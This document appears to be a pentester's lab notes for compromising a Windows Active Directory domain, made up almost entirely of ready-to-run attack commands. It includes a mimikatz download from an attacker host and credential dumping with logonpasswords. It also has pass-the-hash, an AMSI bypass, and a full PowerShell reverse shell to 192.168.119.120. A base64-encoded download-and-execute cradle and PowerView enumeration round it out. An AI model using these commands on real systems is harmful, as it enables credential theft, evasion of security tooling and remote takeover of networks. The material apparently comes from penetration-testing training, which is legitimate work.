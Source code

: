 Raw query to display
- all computers identified by the collector
- all user accounts on the domain
- all active user sessions on machines

```
MATCH (m:Computer) RETURN m
MATCH (m:User) RETURN m
MATCH p = (c:Computer)-[:HasSession]->(m:User) RETURN p
```

```pwsh
iwr -uri http://192.168.119.120/mimikatz.exe -Outfile C:\Users\Public\mimikatz.exe

C:\Users\Public\mimikatz.exe
```

```
privilege::debug
sekurlsa::logonpasswords full
```

`run0.txt`

```pwsh
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)

$client = New-Object System.Net.Sockets.TCPClient('192.168.119.120',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

```pwsh
$Text = 'iex((new-object system.net.webclient).downloadstring("http://192.168.119.120/run0.txt"))'                                                        
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)                    
$EncodedText = [Convert]::ToBase64String($Bytes)                            
$EncodedText
```

Pass the Hash

```
privilege::debug
sekurlsa::pth /user:Administrator /domain:corp.com /ntlm:<hash> /run:"powershell -exec bypass -nop -w hidden -e <base64-encoded command>"
```

```pwsh
iex((new-object system.net.webclient).downloadstring("http://192.168.119.120/PowerView.ps1"))

Get-NetComputer | select dnshostname | Resolve-IPAddress
Get-NetComputer | select dnshostname,operatingsystem,operatingsystemversion

Get-NetUser | select userprincipalname
```
